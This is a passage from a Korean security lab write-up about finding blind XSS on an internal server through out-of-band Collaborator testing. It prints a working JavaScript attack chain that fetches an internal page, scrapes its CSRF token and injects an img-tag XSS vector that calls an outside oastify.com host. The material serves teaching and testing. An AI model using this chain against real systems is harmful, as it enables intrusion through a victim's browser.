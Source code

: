 ```html 
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

## STEP 2. 내부 서버에서 XSS 취약점이 있는 곳 찾기
이 서버에는 XSS 취약점이 있다고 한다. 그런데 문제서버를 살펴봐도 XSS가 있어보이는 곳을 찾기가 쉽지 않다. 유저입력이 가능한 곳은 로그인 폼과 제품 상세 정보 페이지(/product?productId=xx)뿐이다. 제품 상세 정보 페이지는 productId의 형식이 틀리면 "Invalid product ID" 응답을 회신한다. 로그인 폼도 XSS 테스트를 해도 200응답(로그인 실패)을 돌려준다. 응답 페이지에는 XSS 페이로드가 보이지 않기 때문에 취약점이 없어 보인다. 

이런 경우 Collaborator를 이용해서 OAST 테스트를 해볼 수 있다. 다음 코드를 사용해서 테스트한다. 


```js
<html>
    <script>
        collaboratorURL = "http://jczuv0mhp9to3cgtcd767eb9208rwlka.oastify.com"
        url = "http://192.168.0.250:8080"

        fetch(url)
        .then(response => response.text())
        .then(text => {
            try{
                xss_vector = '"><img src=' + collaboratorURL + '?foundXSS=1>';
                login_path = '/login?username=' + encodeURIComponent(xss_vector) + '&password=random&csrf=' + text.match(/csrf" value="([^"]+)"/)[1];
                location = url + login_path;

            }catch (err){
                
            }
        })
        </script>
</html>
```

이 코드는 몇 가지 분석해볼 만한 중요한 포인트가 있다. 

### img 태그를 이용한 XSS검출
위의 코드가 관리자(희생자)의 PC에서 실행되면 어떻게 될까? 서버에 XSS 취약점이 있다면 img태그가 HTML페이지에 삽입될 것이다. 삽입된 img태그의 src에 collaborator의 URL이 적혀져있으므로 collaborator 서버로 이미지소스를 얻기위한 HTTP요청이 전송될 것이다. 따라서 collaborator서버로 요청이 있었다면 XSS취약점이 있는 것으로 판단할 수 있다. 
